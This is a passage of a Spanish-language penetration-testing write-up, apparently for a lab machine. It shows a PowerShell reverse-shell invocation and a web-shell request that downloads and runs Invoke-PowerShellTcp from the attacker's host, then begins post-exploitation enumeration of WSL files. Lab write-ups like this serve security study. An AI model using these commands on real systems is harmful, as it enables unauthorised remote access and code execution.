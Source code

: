 ```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

Exponiéndola mediante un servicio web, se entabló una reverse shell satisfactoriamente mediante la invocación de la request:

```url
http://10.10.10.97:8808/shell.php?cmd=powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')
```

![Reverse shell entablada](images/exploit_14.png)

## Post Explotación

### Enumeración

Después de navegar a través del sistema de archivos se identificó en la ruta `C:\` un archivo zip con el nombre de `Ubuntu.zip` además de encontrarse con la ruta `C:\Distros\Ubuntu` dándo oportunidad para suponer que se trataba de la tecnología empleada en sistemas windows, WSL (Windows Subsystem for Linux).
